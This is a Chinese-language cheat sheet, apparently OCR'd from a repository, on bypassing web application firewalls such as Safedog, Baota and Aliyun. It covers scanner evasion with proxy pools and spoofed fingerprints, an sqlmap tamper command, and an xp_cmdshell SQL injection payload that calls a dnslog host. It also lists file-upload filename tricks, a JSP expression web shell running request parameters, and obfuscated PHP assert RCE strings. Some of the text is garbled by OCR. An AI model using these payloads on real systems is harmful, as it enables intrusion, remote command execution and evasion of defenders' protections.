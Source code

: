 ## 漏洞发现触发WAF点-针对xray, awvs等

1.扫描速度- (代理池，延迟，白名单等)
2.工具指纹- (特征修改，伪造模拟真实用户等)
3.漏洞Payload- (数据变异,数据加密，白名单等)

代理池Proxy_ _pool项 目搭建及使用解释
充钱代理池直接干safedog+BT+Aliyun探针
Safedog-awvs漏扫注入测试绕过延时，白名单
Aliyun_ _os(云盾)-awvs漏扫注入测试绕过-延时白名单
BT(baota)-awvs+xray漏扫Payload绕过延时被动
充钱代理池直接干Safedog+BT+AliyunOS漏洞发现

## SQI注入

如需sqlmap注入修改us头及加入代理防cc拦截自写tamper模块
安全狗:参考之前payload
Aliyun:基本修改指纹即可
宝塔:匹配关键字外加/+等

```
sqlmap --proxy="http://127.0.0.1:8080" --tamper="waf.py" --random-agent
```

360主机卫士是一个很老的WAF，也早已停止更新，所以绕起来不是很难，这里直接使用师傅发的Payload通过dnslog方式来测试是否可以正常执行命令

```
'+and+(select+1)=(Select+0xAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA)+exec+master..xp_cmdshell+'ping+******.dnslog.cn';*--*
```



## 文件上传

1.php截断参考前面上传wa f绕过payload

```
#Payload:
不量垃圾数据缓冲溢出(Content-Disposition, filename等)
filename=x-php
filenane="x. php
filename='x.php
filanane="a.jpg; .php";
filename="a.php80D.jpg"
filename="Consent- -Diaposition: form-data;
name="upload_ ile" ;x.php" 
filename="x. aPg"; filename="x.jpg"; ... . .filename="x.php";
filename="xxx/x-jpg" 
filename=
"
x
.
p
h
p
"
```

tomcat系列

1、后缀名

在后缀名绕过那里可以绕过是因为`tomcat`认为`.jsp/`在文件名中是非法的，`Tomcat`会自动去除非法的`/`号，并不是因为`windows`的特性。但`.jsp\`的反斜杠在本地测试时也可以正常解析去除，在目标机上却无法解析，个人感觉应该很大程度取决于所用的java库及其版本

```
filename=jsp/
```

2、内容绕过

所以我们得绕过`JSP标记`检测，这里两种绕过方法。

- jspEL表达式绕过

- jspx命名空间绕过

- **第一种是利用${}标记：**

  payload：

  ```
  ${Runtime.getRuntime().exec(request.getParameter("x"))}
  ```

**第二种是利用命名空间的特性：**

参照yzddmr6师傅的图：

![图片](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOcwBT53V11MO0kgwBDTnYPWwGQOG8dfR7UwficDMoU8mGAV9cdo7VZfYYu25u8rnHtrzSpdGNP9czQ/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1)



使用自定义的命名空间，替换掉`jsp`的关键字，将原本的`<jsp:scriptlet>`替换成`<自定义字符:scriptlet>`，这样waf的正则匹配不到`<jsp:scriptlet>`自然就会放行

```xml
<hi xmlns:hi="http://java.sun.com/JSP/Page">
	<hi:scriptlet>
		out.println(30*30);
	</hi:scriptlet>
</hi>
```

## Xss跨站

利用xsstrike绕过加上--timeout或--proxy绕过cc

## 其他集合

RCE:
加密加码绕过?算法可逆?关键字绕过?提交方法?各种测试!

```
txt=$y=str_replace('x','','pxhpxinxfo()') ;assert($y);&submit=8E688F8908E48BA8A4   //拼接，替换

txt=$x='asse';$xx=$REQUEST['x']$xx=$x.$xx;$y=str_replace('x',"'pxhpxinxfo0);$xx($y);&submit=96E6%8F%90%E4%BA%A4


txt=$hex='706870696e666f28293b jassert(pack("H*". $hex));&usubmit=9E6%8F%90%6E4%BA9%A4	//16进制
```

文件包含:没什么好说的就这几种

```
..\   ..../   ..\.\ 等
```

## 宝塔waf绕过

https://mp.weixin.qq.com/s/-tenIIgbhXa-T331V5Je1g
